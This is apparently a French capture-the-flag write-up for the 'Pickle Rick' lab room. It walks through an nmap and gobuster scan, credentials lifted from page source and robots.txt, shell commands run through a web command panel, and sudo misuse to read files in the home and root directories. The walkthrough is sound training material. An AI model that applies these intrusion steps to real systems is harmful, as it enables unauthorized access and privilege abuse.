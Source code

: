 # Room - Pickle Rick

## nmap -A 10.10.243.195

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-28 20:02 UTC
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 20:03 (0:00:06 remaining)
Nmap scan report for ip-10-10-243-195.eu-west-1.compute.internal (10.10.243.195)
Host is up (0.00045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f957db1acd70e69ab1d6c2a5b296f29a (RSA)
|   256 208d02c08b3cc5277ca8e5582c2ef4ca (ECDSA)
|_  256 820461488cca45995434707b29ff881d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:7D:F0:49:9D:6D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/28%OT=22%CT=1%CU=42837%PV=Y%DS=1%DC=D%G=Y%M=027DF0%
OS:TM=6770597B%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=
OS:I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11
OS:NW7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=
OS:F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%
OS:T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(
OS:R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.45 ms ip-10-10-243-195.eu-west-1.compute.internal (10.10.243.195)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.56 seconds
```

## curl http://10.10.243.195

```bash
Note to self, remember username!

    Username: R1ckRul3s
```

## Gobuster

```bash
gobuster dir -u http://10.10.243.195 -w /usr/share/wordlists/dirb/common.txt
```

### Accès à la page /robots.txt

Wubbalubbadubdub : Mot de passe ?

### Page /login.php découverte

Connexion avec les identifiants ci-dessus fonctionnelle --> accès au site.

### Sur le command panel teste de la commande 'ls'

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

On a le premier ingrédient !

On ne peut pas ouvrir le fichier avec `cat` mais avec `less` c'est possible.

Si ensuite on fait un `less clue.txt` on obtient cet indice :

"Look around the file system for the other ingredient."

### On teste un sudo -l

```bash
Matching Defaults entries for www-data on ip-10-10-243-195:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-243-195:
    (ALL) NOPASSWD: ALL
```

On cherche alors dans la machine jusqu'à :

```bash
less ../../../home/rick/"second ingredients"
```

Le deuxième ingrédient est là !

Pour le dernier on va chercher le répertoire root et après quelques recherches, on tombe sur :

```bash
"sudo less ../../../root/3rd.txt"
```

On obtient finalement le dernier ingrédient !